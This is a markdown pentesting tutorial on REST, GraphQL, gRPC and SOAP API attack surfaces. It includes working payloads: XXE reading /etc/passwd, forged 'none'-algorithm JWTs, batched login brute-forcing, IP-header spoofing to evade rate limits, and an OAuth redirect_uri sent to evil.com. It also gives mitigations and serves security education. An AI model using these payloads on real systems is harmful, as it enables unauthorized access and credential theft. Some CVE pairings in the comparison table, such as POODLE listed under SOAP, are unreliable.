

# API Architecture for Security Testers

> **Understanding API design patterns, protocols, and attack surfaces before exploitation.**

## 🧠 What Is It? (Beginner Explanation)

APIs (Application Programming Interfaces) are the backbone of modern web applications. Every time your phone app talks to a server, it's using an API. As a security tester, understanding how different API architectures work is fundamental — because each architecture has its own unique attack surface, its own quirks, and its own common misconfigurations.

Think of an API as a waiter in a restaurant: you (the client) tell the waiter (the API) what you want, the waiter goes to the kitchen (the server/database), and brings back your food (the data). The security issues arise when:
- Anyone can order from the kitchen directly (no auth)
- The waiter doesn't check if you're allowed to order certain dishes (broken authorization)
- The kitchen's entire menu is accidentally left on your table (information disclosure)

---

## 🏗️ How It Works (Technical Deep Dive)

### API Protocol Landscape

Modern applications use four main API paradigms. Each has a distinct architecture, data format, discovery mechanism, and attack surface.

---

## 📊 API Protocol Comparison

| Feature | REST | GraphQL | gRPC | SOAP |
|---|---|---|---|---|
| **Protocol** | HTTP/1.1, HTTP/2 | HTTP/1.1 | HTTP/2 (binary) | HTTP, SMTP, TCP |
| **Data Format** | JSON, XML, plain text | JSON | Protobuf (binary) | XML only |
| **Endpoint Style** | Multiple endpoints (`/users`, `/orders`) | Single endpoint (`/graphql`) | Method-based (`.proto` file) | Single WSDL-described endpoint |
| **Discovery** | Swagger/OpenAPI, guessing | Introspection query | `.proto` files, reflection | WSDL file (`?wsdl`) |
| **Auth Common** | JWT, API key, OAuth2 | JWT, API key | mTLS, JWT | WS-Security, Basic Auth |
| **Versioning** | URI-based (`/v1/`), header | Schema evolution | Package versioning | Contract changes |
| **Attack Surface** | BOLA, injection, method tampering | Introspection, batching DoS, injection | Proto deserialization, reflection abuse | XXE, SSRF via WSDL, injection |
| **Verbosity** | Medium | High (returns only requested fields) | Low (binary) | Very High (XML overhead) |
| **Browser Native** | ✅ Yes | ✅ Yes | ❌ No (needs gRPC-web proxy) | ⚠️ Partial |
| **Tooling (Pentest)** | Burp, ffuf, curl, httpie | GraphQL Voyager, InQL, Burp | grpcurl, grpc-dump | SOAPui, Burp |
| **CVE Examples** | CVE-2019-5785 | CVE-2021-41248 (GraphQL injection) | CVE-2023-33953 | CVE-2014-3566 (POODLE on SOAP) |

---

## 📊 Diagram — API Gateway Architecture & Request Flow



---

## ⚙️ Technical Details

### 1. REST APIs

REST (Representational State Transfer) is the most common API style. It uses standard HTTP methods and typically returns JSON.

**Key characteristics:**
- Resources identified by URLs: `/api/v1/users/123`
- HTTP verbs map to CRUD: GET (read), POST (create), PUT/PATCH (update), DELETE (delete)
- Stateless — each request must carry all context (auth token, etc.)

**Common REST URL patterns to fuzz:**

```
/api/
/api/v1/
/api/v2/
/api/v3/
/v1/
/v2/
/rest/
/rest/v1/
/service/
/services/
/backend/api/
/public/api/
/private/api/
/internal/api/
/external/api/
/mobile/api/
/app/api/
```

---

### 2. GraphQL

GraphQL uses a **single endpoint** and a query language to let clients specify exactly what data they want. This introduces unique attack vectors.

**Introspection — discovering the entire schema:**

```graphql
# Full schema dump
{
  __schema {
    types {
      name
      fields {
        name
        type {
          name
          kind
        }
      }
    }
  }
}
```

```bash
# Via curl
curl -s -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{__schema{types{name fields{name}}}}"}' | jq .
```

**GraphQL Batching Attack (bypasses rate limiting):**

```json
[
  {"query": "mutation { login(user:\"admin\", pass:\"password1\") }"},
  {"query": "mutation { login(user:\"admin\", pass:\"password2\") }"},
  {"query": "mutation { login(user:\"admin\", pass:\"password3\") }"},
  {"query": "mutation { login(user:\"admin\", pass:\"admin\") }"}
]
```

**Alias-based batching (alternative form):**

```graphql
{
  a1: login(user: "admin", pass: "password1") { token }
  a2: login(user: "admin", pass: "password2") { token }
  a3: login(user: "admin", pass: "admin") { token }
}
```

---

### 3. gRPC

gRPC uses HTTP/2 and Protocol Buffers (binary format). It's faster but harder to intercept without tooling.

**Key security considerations:**
- Binary format — traditional proxies won't decode it without plugins
- Server reflection may be enabled (exposes all services/methods)
- mTLS is common but misconfigured mTLS is a finding

```bash
# Enumerate gRPC services via reflection
grpcurl -plaintext target.com:50051 list

# List methods of a specific service
grpcurl -plaintext target.com:50051 list com.example.UserService

# Call a method
grpcurl -plaintext -d '{"user_id": "123"}' \
  target.com:50051 com.example.UserService/GetUser

# Check if reflection is enabled (information disclosure)
grpcurl -plaintext target.com:50051 grpc.reflection.v1alpha.ServerReflection/ServerReflectionInfo
```

---

### 4. SOAP

SOAP (Simple Object Access Protocol) is older, XML-based, and described by WSDL files. Still common in enterprise/banking environments.

**WSDL discovery:**

```
https://target.com/service?wsdl
https://target.com/service?WSDL
https://target.com/ws/service.asmx?wsdl
https://target.com/api/soap?wsdl
```

**Example SOAP request:**

```xml
POST /UserService HTTP/1.1
Host: target.com
Content-Type: text/xml; charset=utf-8
SOAPAction: "GetUser"

<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
                  xmlns:usr="http://target.com/UserService">
   <soapenv:Header/>
   <soapenv:Body>
      <usr:GetUser>
         <usr:userId>12345</usr:userId>
      </usr:GetUser>
   </soapenv:Body>
</soapenv:Envelope>
```

**XXE via SOAP (CVE-class vulnerability):**

```xml
POST /UserService HTTP/1.1
Host: target.com
Content-Type: text/xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
   <soapenv:Body>
      <GetUser>
         <userId>&xxe;</userId>
      </GetUser>
   </soapenv:Body>
</soapenv:Envelope>
```

---

## 🔑 Authentication Patterns & Attack Surface

### Pattern 1: API Keys

API keys are simple shared secrets. Their placement determines the attack vector.

| Placement | Example | Risk |
|---|---|---|
| Header (custom) | `X-API-Key: abc123` | Leaked in proxy logs if not filtered |
| Query parameter | `?api_key=abc123` | Logged in server access logs, browser history |
| Request body | `{"api_key": "abc123"}` | Logged in application logs |
| Authorization header | `Authorization: ApiKey abc123` | Best practice, but still a static secret |

```http
# Worst practice — key in URL (ends up in server logs)
GET /api/v1/users?api_key=sk-prod-abc123def456 HTTP/1.1
Host: target.com

# Slightly better — key in header, but weak secret
GET /api/v1/users HTTP/1.1
Host: target.com
X-API-Key: 12345

# Test with no key — does it still work?
GET /api/v1/users HTTP/1.1
Host: target.com
```

---

### Pattern 2: JWT (Bearer Tokens)

JWT tokens are base64-encoded and consist of three parts: `header.payload.signature`

```bash
# Decode a JWT (no verification)
echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NSIsInJvbGUiOiJ1c2VyIn0.xyz" \
  | cut -d'.' -f2 | base64 -d 2>/dev/null | jq .
```

**JWT Attack: Algorithm Confusion (none algorithm)**

```bash
# Original JWT header
{"alg": "HS256", "typ": "JWT"}

# Tampered header — set alg to none
{"alg": "none", "typ": "JWT"}

# Build token manually (no signature needed)
header=$(echo -n '{"alg":"none","typ":"JWT"}' | base64 -w0 | tr '+/' '-_' | tr -d '=')
payload=$(echo -n '{"sub":"12345","role":"admin"}' | base64 -w0 | tr '+/' '-_' | tr -d '=')
echo "$header.$payload."
```

**JWT Tool:**

```bash
# Install jwt_tool
pip install jwt_tool

# Test all JWT attacks automatically
python3 jwt_tool.py <JWT_TOKEN> -t https://target.com/api/v1/profile \
  -rh "Authorization: Bearer JWT" -M at

# Try none algorithm
python3 jwt_tool.py <JWT_TOKEN> -X a

# Brute force weak HMAC secret
python3 jwt_tool.py <JWT_TOKEN> -C -d /usr/share/wordlists/rockyou.txt
```

---

### Pattern 3: OAuth 2.0

OAuth 2.0 is used for delegated authorization. Common grant types and their risks:

| Grant Type | Use Case | Risk |
|---|---|---|
| Authorization Code | Web apps | State parameter CSRF, redirect_uri manipulation |
| Implicit | SPAs (deprecated) | Token in URL fragment, leaks to referrer |
| Client Credentials | Server-to-server | Client secret exposure |
| Resource Owner Password | Legacy | Password exposed to client app |
| Device Code | IoT/CLI | Long-lived polling window |

```http
# Authorization Code Flow — redirect_uri manipulation
GET /oauth/authorize?
  client_id=app123&
  response_type=code&
  redirect_uri=https://evil.com/callback&    ← attacker's server
  scope=read:user&
  state=randomstate
HTTP/1.1
Host: target.com
```

---

### Pattern 4: HMAC-Signed Requests

AWS-style request signing. Requires knowing the secret key to forge.

```python
import hmac, hashlib, base64, datetime

secret = b"my-api-secret"
timestamp = datetime.datetime.utcnow().strftime('%Y%m%dT%H%M%SZ')
message = f"GET\n/api/v1/users\n{timestamp}".encode()

signature = base64.b64encode(
    hmac.new(secret, message, hashlib.sha256).digest()
).decode()

print(f"X-Signature: {signature}")
print(f"X-Timestamp: {timestamp}")
```

**Testing HMAC:** Check if timestamp validation window is too wide (replay attacks).

---

### Pattern 5: mTLS (Mutual TLS)

Both client and server present certificates. Bypass attempts:

```bash
# Check if mTLS is enforced (request without cert should fail with 400/403)
curl -k https://target.com/api/v1/users
# If it returns 200 → mTLS not enforced

# Request with client cert
curl --cert client.crt --key client.key \
     --cacert ca.crt https://target.com/api/v1/users
```

---

## 🚪 API Gateway Bypass Techniques

### Common Gateways

| Gateway | Provider | Common Config Panel |
|---|---|---|
| Kong | Open source / Kong Inc. | `:8001` (admin API) |
| AWS API Gateway | Amazon | Console, CloudFormation |
| Azure APIM | Microsoft | Azure Portal |
| Nginx (as gateway) | Open source | `nginx.conf` |
| Traefik | Open source | `:8080/dashboard` |

### Bypass Technique 1: Direct Backend Access

Gateways sit in front of backends. If the backend is reachable directly:

```bash
# Discover origin server (check SSL cert, DNS history, Shodan)
# If gateway is at api.target.com, backend might be at:
curl https://10.0.0.1/api/v1/users -H "Host: api.target.com"
curl https://origin.target.com/api/v1/users

# Check for direct IP access (no TLS SNI filtering)
curl -k https://[BACKEND-IP]/api/v1/users
```

### Bypass Technique 2: Rate Limit Evasion via Header Spoofing

```http
GET /api/v1/login HTTP/1.1
Host: target.com
X-Forwarded-For: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
CF-Connecting-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
```

```bash
# Automate with ffuf — rotate the spoofed IP
ffuf -w /path/to/passwords.txt -u https://target.com/api/v1/login \
  -X POST \
  -d '{"user":"admin","pass":"FUZZ"}' \
  -H "Content-Type: application/json" \
  -H "X-Forwarded-For: FUZZ2" \
  -w /path/to/ips.txt:FUZZ2 \
  -mc 200
```

### Bypass Technique 3: Path Manipulation

```bash
# Null byte in path
GET /api/v1/users%00 HTTP/1.1

# Double encoding
GET /api/v1/%75sers HTTP/1.1      # u → %75

# Path traversal style
GET /api/v2/../v1/admin HTTP/1.1

# Case variation
GET /API/V1/USERS HTTP/1.1
GET /Api/V1/Users HTTP/1.1

# Trailing slash / extension
GET /api/v1/users/ HTTP/1.1
GET /api/v1/users.json HTTP/1.1
GET /api/v1/users.xml HTTP/1.1
```

### Bypass Technique 4: Old API Version Access

```bash
# v2 has auth, v1 doesn't
curl https://target.com/api/v2/users \
  -H "Authorization: Bearer invalid" 
# → 401 Unauthorized

curl https://target.com/api/v1/users
# → 200 OK with all users (no auth on v1)
```

---

## 🔍 API Documentation Discovery

Finding API documentation is often the first step in an API pentest — it maps the entire attack surface.

### Swagger / OpenAPI Discovery

```bash
# Common Swagger/OpenAPI paths
/swagger.json
/swagger.yaml
/openapi.json
/openapi.yaml
/api-docs
/api-docs.json
/v1/api-docs
/v2/api-docs
/v3/api-docs
/swagger-ui.html
/swagger-ui
/swagger/index.html
/api/swagger.json
/api/swagger-ui.html
/docs
/api/docs
/redoc
/api/redoc
/.well-known/openapi
```

```bash
# Fuzz for swagger files
ffuf -w /usr/share/seclists/Discovery/Web-Content/swagger.txt \
  -u https://target.com/FUZZ \
  -mc 200,301,302 -t 50

# Or use a dedicated tool
docker run --rm -it hysnsec/kiterunner \
  scan https://target.com --wordlist /wordlists/routes-small.kite
```

### GraphQL Introspection Discovery

```bash
# Common GraphQL endpoints
/graphql
/graphql/
/graphiql
/graphql/console
/api/graphql
/v1/graphql
/query
/gql

# Test introspection
curl -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __schema { types { name } } }"}'

# Use InQL Burp extension or standalone
python3 -m inql -t https://target.com/graphql
```

### WSDL Discovery for SOAP

```bash
# Append to any service URL
/service?wsdl
/service?WSDL
/ws?wsdl
/soap?wsdl
/api/soap?wsdl
/WebService.asmx?wsdl
/UserService.svc?wsdl

curl "https://target.com/service?wsdl" | xmllint --format - | head -100
```

### JavaScript Source Analysis

Modern SPAs embed API endpoints in their JavaScript bundles. Extract them:

```bash
# Download all JS files from a site
wget -r -l2 -A "*.js" https://target.com

# Extract API paths with regex
grep -rhoE '['"'"'"](/api/[^'"'"'"]{3,100})['"'"'"]' *.js | sort -u

# More comprehensive extraction
grep -rhoE '(\/api\/[a-zA-Z0-9_\/\-\.]+)' *.js | sort -u

# Extract from minified JS using js-beautify first
npm install -g js-beautify
js-beautify main.bundle.js | grep -E '"(/api/|/v[0-9]/)' | sort -u
```

### Wayback Machine — Historical Endpoint Discovery

```bash
# Search all archived URLs for a domain
curl "https://web.archive.org/cdx/search/cdx?\
url=target.com/api/*&\
output=text&\
fl=original&\
collapse=urlkey&\
limit=10000" | sort -u

# Filter for interesting paths
curl "https://web.archive.org/cdx/search/cdx?url=target.com/api/*&output=text&fl=original" \
  | grep -E "\.(json|xml|yaml|swagger)" | sort -u

# Also check with gau
gau target.com | grep -E "^https?://[^/]+/api" | sort -u
```

### GitHub Secrets — Leaked Postman Collections

```bash
# Search GitHub for leaked API collections
gh search code "target.com" --extension json | grep -i postman

# Manual GitHub search queries:
# site:github.com "target.com" "api_key"
# site:github.com "target.com" postman
# site:github.com "target.com" swagger

# Use truffleHog or gitleaks on discovered repos
trufflehog github --repo https://github.com/target/repo
```

### Mobile App Decompilation

```bash
# APK (Android)
apktool d target.apk -o decompiled/
grep -rE "https?://[a-zA-Z0-9._-]+/api" decompiled/ | sort -u

# IPA (iOS) — requires jailbreak or frida
strings target.ipa | grep -E "https?://.*/(api|v[0-9])/" | sort -u

# Use MobSF for automated analysis
docker run -it --rm -p 8000:8000 opensecurity/mobile-security-framework-mobsf
# Upload APK/IPA → View API endpoints in Network section
```

---

## 💥 Exploitation — API Endpoint Discovery (Full Workflow)

```bash
# Step 1: Passive recon
# Check robots.txt and sitemap
curl https://target.com/robots.txt
curl https://target.com/sitemap.xml

# Step 2: Check common doc endpoints
for path in /swagger.json /openapi.json /api-docs /swagger-ui.html /graphql; do
  code=$(curl -o /dev/null -s -w "%{http_code}" https://target.com$path)
  echo "$code - $path"
done

# Step 3: Active fuzzing with SecLists API wordlist
ffuf -w /usr/share/seclists/Discovery/Web-Content/api/api-endpoints.txt \
  -u https://target.com/api/v1/FUZZ \
  -mc 200,201,301,302,401,403 \
  -t 50 \
  -o results.json \
  -of json

# Step 4: Version fuzzing
ffuf -w <(seq 1 5 | sed 's/^/v/') \
  -u https://target.com/api/FUZZ/users \
  -mc 200,201,401,403

# Step 5: Kiterunner for route-aware fuzzing (smarter than ffuf for APIs)
kr scan https://target.com \
  -w routes-large.kite \
  --fail-status-codes 404,429 \
  -o results.txt
```

---

## 🛠️ Tools Summary

| Tool | Purpose | Install |
|---|---|---|
| **ffuf** | API endpoint fuzzing | `apt install ffuf` |
| **kiterunner (kr)** | Smart API route fuzzing | `go install github.com/assetnote/kiterunner` |
| **jwt_tool** | JWT attack automation | `pip install jwt_tool` |
| **InQL** | GraphQL security testing | Burp extension or `pip install inql` |
| **GraphQL Voyager** | GraphQL schema visualization | `npm install graphql-voyager` |
| **grpcurl** | gRPC enumeration | `go install github.com/fullstorydev/grpcurl` |
| **SoapUI** | SOAP testing | `snap install soapui` |
| **Arjun** | HTTP parameter discovery | `pip install arjun` |
| **ParamSpider** | URL parameter mining | `pip install paramspider` |
| **gau** | Get all URLs (Wayback+AlienVault) | `go install github.com/lc/gau/v2/cmd/gau@latest` |
| **MobSF** | Mobile app analysis | Docker |
| **Burp Suite** | All-in-one proxy/scanner | `snap install burpsuite` |

---

## 📊 REST vs GraphQL Attack Surface Comparison

| Attack Vector | REST | GraphQL |
|---|---|---|
| **IDOR / BOLA** | `/api/users/123` → try 124 | `{user(id: 124) { email }}` |
| **Auth bypass** | Remove `Authorization` header | Remove auth, query public fields |
| **Mass assignment** | Extra fields in POST/PATCH | Mutation with extra fields |
| **DoS** | No pagination `?limit=99999` | Deeply nested query, alias bombing |
| **Info disclosure** | Error messages, stack traces | Full schema via introspection |
| **Injection** | SQL/NoSQL/Command in params | Injection in query variables |
| **Rate limit bypass** | Header spoofing | Batching / aliases bypass per-query limits |
| **Hidden endpoints** | Guessing/fuzzing | Introspection reveals everything |
| **Method confusion** | GET→POST→DELETE tampering | N/A (single POST endpoint) |

---

## 🔍 Detection — How to Spot API Endpoints You Shouldn't Have Found

Look for these indicators in a pentest:

```bash
# 1. HTTP 401/403 → endpoint exists but you're not authorized (worth noting)
# 2. HTTP 405 → endpoint exists but wrong method (try others)
# 3. Different response sizes vs 404 → possible hit
# 4. Response body contains API-specific errors ("invalid token", "permission denied")

# Automate response size filtering with ffuf
ffuf -w wordlist.txt -u https://target.com/api/FUZZ \
  -mc all \
  -fs 0,404 \       # Filter out empty responses and 404-sized responses
  -t 30
```

---

## 🛡️ Mitigation

| Issue | Mitigation |
|---|---|
| Undiscovered shadow APIs | Maintain an API inventory; use API gateway with strict routing |
| Old versions accessible | Deprecate and remove old API versions; redirect with 410 Gone |
| Introspection exposed | Disable GraphQL introspection in production |
| API docs exposed | Restrict Swagger/OpenAPI UI to internal network only |
| Rate limiting bypassable | Validate `X-Forwarded-For` only from trusted proxies; use multiple rate limit keys |
| API keys in URLs | Enforce header-only API key delivery; rotate any leaked keys |
| JWT `none` algorithm | Explicitly validate and reject tokens with `alg: none` in server-side code |
| WSDL exposed | Restrict WSDL access; require authentication to view WSDL |

---

## 📚 References

- [OWASP API Security Top 10](https://owasp.org/www-project-api-security/)
- [PortSwigger Web Academy — API Testing](https://portswigger.net/web-security/api-testing)
- [HackTricks — API Pentesting](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/api-pentesting)
- [SecLists API Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content/api)
- [Assetnote Kiterunner](https://github.com/assetnote/kiterunner)
- [JWT Security Best Practices (RFC 8725)](https://www.rfc-editor.org/rfc/rfc8725)
- [GraphQL Security Guide](https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html)
- [OAuth 2.0 Security Best Current Practice](https://www.rfc-editor.org/rfc/rfc9700)
- [CVE-2021-41248 — GraphQL injection](https://nvd.nist.gov/vuln/detail/CVE-2021-41248)
- [PayloadsAllTheThings — API](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/API)
